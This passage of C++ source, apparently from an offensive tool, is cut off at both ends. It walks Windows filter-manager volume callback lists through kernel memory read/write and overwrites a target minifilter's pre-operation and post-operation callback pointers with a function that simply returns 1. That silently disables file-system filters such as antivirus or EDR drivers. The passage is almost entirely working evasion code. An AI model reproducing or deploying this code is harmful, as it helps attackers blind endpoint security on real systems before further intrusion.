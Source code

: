 ```C++
				continue;
			}

			// calculate the pointer to the volume's callback list entry
			// by indexing into the callback table
			DWORD64 lpTargetCallbackListEntryPtr = (DWORD64)vol.second + VOLUME_OFFSET_CALLBACK_TBL + ((DWORD64)index * 0x10);
			printf("\n==== Volume: %S ====\n\tMajFn - %d\n\tListEntryPtr - %llx\n", vol.first, index, lpTargetCallbackListEntryPtr);
			DWORD64 lpListHead = 0;
			DWORD64 lpListIter = 0;


			// read in the list entry head
			bool b = this->objMemHandler->VirtualRead(
				lpTargetCallbackListEntryPtr,
				&lpListHead,
				sizeof(DWORD64)
			);

			if (!b) return FALSE;
			
			lpListIter = lpListHead;

			// loop over every operation in the list
			do {
				// read in the preop and post-op
				// operations[0] = PreOp
				// operations[1] = PostOp
				DWORD64 operations[2] = { 0 };
				bool b = this->objMemHandler->VirtualRead(
					lpListIter + CALLBACK_NODE_OFFSET_PREOP,
					operations,
					sizeof(operations)
				);
				if (!b) return FALSE;

				// if we've found our target pre-operation
				if (operations[0] == (DWORD64)op.PreOperation && op.PreOperation) {
					printf("\tPre Callback is at : %llx\tval %llx\n", lpListIter + CALLBACK_NODE_OFFSET_PREOP, operations[0]);
					// patch it!
					DWORD64 lpTarget = (DWORD64)lpHandyFuncs->FuncReturns1;
					b = this->objMemHandler->VirtualWrite(
						lpListIter + CALLBACK_NODE_OFFSET_PREOP,
						&lpTarget,
						sizeof(DWORD64)
					);
					if (!b) return FALSE;
					puts("\t\t** PATCHED!");
					numPatched++;		
				} 


				// if we've found our target post-operation
				if (operations[1] == (DWORD64)op.PostOperation && op.PostOperation != NULL) {
					printf("\tPost Callback is at : %llx\tval %llx\n", lpListIter + CALLBACK_NODE_OFFSET_PREOP, operations[1]);
					// patch it
					DWORD64 lpTarget = (DWORD64)lpHandyFuncs->FuncReturns1;
					b = this->objMemHandler->VirtualWrite(
						lpListIter + CALLBACK_NODE_OFFSET_POSTOP,
						&lpTarget,
```